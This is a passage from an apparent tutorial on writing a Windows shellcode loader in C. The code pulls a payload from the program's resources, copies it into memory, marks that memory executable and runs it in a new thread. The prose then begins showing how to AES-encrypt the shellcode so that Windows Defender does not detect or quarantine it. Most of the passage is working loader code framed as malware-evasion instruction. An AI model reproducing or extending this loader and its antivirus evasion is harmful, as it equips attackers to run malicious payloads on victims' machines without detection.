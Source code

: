 ```c
	HGLOBAL hGlobal = LoadResource(NULL, hRsrc);
	PVOID pPayload = LockResource(hGlobal);
	SIZE_T sPayloadSize = SizeofResource(NULL, hRsrc);

	// Make working buffer
	PVOID pWorkBuffer = VirtualAlloc(NULL, sPayloadSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	RtlMoveMemory(pWorkBuffer, pPayload, sPayloadSize);

	RsrcInfo ReturnInfo = { .pWorkBuffer = pWorkBuffer, .sBufferSize = sPayloadSize };

	return ReturnInfo;

}

// Just runs a thread given a memory chunk. Returns thread handle.
HANDLE RunThread(PVOID pPayload, SIZE_T sPayloadSize)
{

	DWORD proc = 0;
	BOOL bExecute = VirtualProtect(pPayload, sPayloadSize, PAGE_EXECUTE_READ, &proc);
	HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE)pPayload, 0, 0, 0);
	WaitForSingleObject(hThread, -1);

	return hThread;
}

int main()
{
	// Get payload from Rsrc

	RsrcInfo sBufferInfo = CloneRsrcPayload();
	SIZE_T sPayloadSize = sBufferInfo.sBufferSize;
	PVOID pPayload = sBufferInfo.pWorkBuffer;

	// Execute

	RunThread(pPayload, sPayloadSize);

	return EXIT_SUCCESS;
}
```
Nice!

## AES Encryption

While our setup is functional, using most malicious shellcode will instantly get picked up by Defender and the file will be quarantined. Let's fix that.

One great option is to encrypt our shellcode before hand and decrypt it at runtime. When Defender looks at our encrypted payload, it will just see a bunch of gibberish and be none the wiser. We can use AES-256 to encrypt our payload. Again, there are various methods to accomplish this but a popular one is [Tiny-AES-C](https://github.com/kokke/tiny-AES-c). Start by copying `aes.h` and `aes.c` into your working directory and adding `#include "aes.h"`. You'll need to comment out some AES-128/156 lines in the header file in order to choose AES-256.
